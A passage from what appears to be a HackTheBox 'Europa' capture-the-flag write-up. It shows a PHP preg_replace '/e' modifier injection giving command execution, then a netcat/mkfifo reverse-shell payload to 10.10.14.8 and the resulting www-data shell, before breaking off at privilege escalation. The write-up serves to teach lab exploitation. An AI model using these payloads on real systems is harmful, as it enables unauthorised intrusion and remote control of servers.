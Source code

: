 Ah.. much better. It looks like the request is looking for some regex pattern?

Doing a quick Google search on `PHP regex exploit` brings me to this [article](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4).

It seems like we can just add an `e` modifier to the regular expression/pattern to execute a `PHP` code.

Let’s modify our request to something like this: `pattern=/ip_address/e&ipaddress=system('id')&text=...`

```http
HTTP Request
...
pattern=%2Fip_address%2Fe&ipaddress=system('id')&text=...

HTTP Response
...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
...
```

Yay! We managed to execute some PHP code.

Now, lets send a reverse netcat shell code.

```bash
Reverse netcat shell code (non-URL encoded)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f

Reverse netcat shell code (URL encoded)
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E14%2E8%201234%20%3E%2Ftmp%2Ff

- HTTP Request - 
...
pattern=%2Fip_address%2Fe&ipaddress=system("rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E14%2E8%201234%20%3E%2Ftmp%2Ff")&text=...

- Netcat listener -

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# nc -nlvp 1234  
listening on [any] 1234 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.22] 35470
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

# Privilege Escalation

Let’s use Linpeas to find out if there is anything we can exploit to gain privilege escalation.
